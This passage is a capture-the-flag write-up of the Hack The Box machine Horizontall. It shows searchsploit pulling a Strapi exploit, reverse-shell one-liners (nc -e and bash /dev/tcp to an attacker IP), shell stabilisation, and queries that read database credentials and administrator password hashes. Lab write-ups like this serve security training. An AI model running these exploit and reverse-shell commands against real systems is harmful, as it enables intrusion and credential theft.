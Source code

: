 I try different ways to send me a **Reverse Shell** to my machine, and with the help of **[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** I get one with an **one line** that is mentioned on the page. I make a treatment of the console to have a better fluency in the exploitation phase, I check that the codename is the same as the one that Launchpad informed me (**bionic**).

```bash
searchsploit                                    # 50239.py
searchsploit -m multiple/webapps/50239.py
mv 50239.py strapi_exploit.py

tcpdump -i tun0 icmp -n
python3 strapi_exploit.py http://api-prod.horizontall.htb/

  $> ping -c 1 10.10.14.6                       # :)

nc -nlvp 443
  $> nc -e /bin/bash 10.10.14.6 443                                 # :(
  $> bash -i >& /dev/tcp/10.10.14.26/443 0>&1                       # :(
  $> bash -c 'bash -i >& /dev/tcp/10.10.14.29/443 0>&1'             # :)
```

```bash
script /dev/null -c bash    [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I make a quick listing in the current directory, to which the **Rerverse Shell** sent me and I find a very striking `config` directory, when I explore it further I find a file with credentials to access the database administrator. I log in and perform a couple of queries but I find credentials generated by the expoloit I used, so they will not be useful for an **User Pivoting** or **Privilege Escalation**.

```bash
cat environments/development/database.json

mysql -udeveloper -p
    /> show databases;
    /> use strapi;
    /> show tables;
    /> describe strapi_administrator;
    /> SELECT username,password FROM strapi_administrator;
```
